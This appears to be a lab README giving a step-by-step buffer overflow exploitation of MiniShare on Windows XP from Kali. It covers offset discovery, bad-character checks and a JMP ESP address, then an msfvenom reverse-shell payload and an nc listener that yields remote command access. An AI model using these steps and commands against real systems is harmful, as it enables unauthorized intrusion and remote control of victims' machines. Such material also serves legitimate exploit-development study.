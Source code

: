 # buffer_overflow_winXP

The Guideline for Buffer Overflow Attack 
Kali Linux: attacker (192.168.230.153) | Windows XP: victim (192.168.230.170)
--------------------------------------------------------------------------------------------------
-Step1: (Windows), open Minishare, Immunity Debugger/Attach/Minishare
(if needed Immunity Debugger/Debug/Restart (Yes), /Play)

-Step2: (Kali), python mini-1.py 192.168.230.170
check: EIP 41414141

-Step3: (Kali, generate pattern for checking offset value of ESP) 
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100
Copy the pattern to mini-2.py

-Step4: Immunity Debugger/Debug/Restart (Yes), /Play
python mini-2.py 192.168.230.170
check: ESP Ch7Ch8Ch9 ...
check: EIP 36684335

-Step5: (Kali, check the offset)
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 36684335
Exact match at offset 1787
Edit mini-3.py

-Step6: Immunity Debugger/Debug/Restart (Yes), /Play
python mini-3.py 192.168.230.170
Check: ESP "CCC ...
Check: EIP 42424242
Add badchars to mini-4.py

-Step7: Immunity Debugger/Debug/Restart (Yes), /Play
python mini-4.py 192.168.230.170
Click ESP, right click/ Follow in Dump, check Hex Dump: 01 02 03 ... 0C 0D 0E ...
Edit mini-5.py, remove the value \x0d

-Step8: Immunity Debugger/Debug/Restart (Yes), /Play
python mini-5.py 192.168.230.170
Click ESP, right click/Follow in Dump, check Hex Dump: don't see 0D

-Step9: Immunity Debugger/Debug/Restart (Yes)
/View/log, click USER32.dll -> click "e" on the tool bar, double click USER32.dll/right click/Search for/Command: JMP ESP, remember the address value 7E429353 that is added value to mini-6.py

-Step10: (Kali, create a shellcode) msfvenom -p windows/shell_reverse_tcp lhost=192.168.37.128 lport=443 -b "\x00\x0d" -f c -e x86/shikata_ga_nai
Add the shellcode to mini-6.py, remove the badchars.

-Step11: (Kali) nc -lvp 443

-Step12: Exit Immunity Debugger. Open Minishare.
python mini-6.py 192.168.230.170
(Kali) At the terminal running nc -lvp 443 dumps the terminal of Windows XP (for example: C:\Documents and Settings\victim\Desktop\MiniShare>). Now, you can run commands for remote control.
                                                                                             
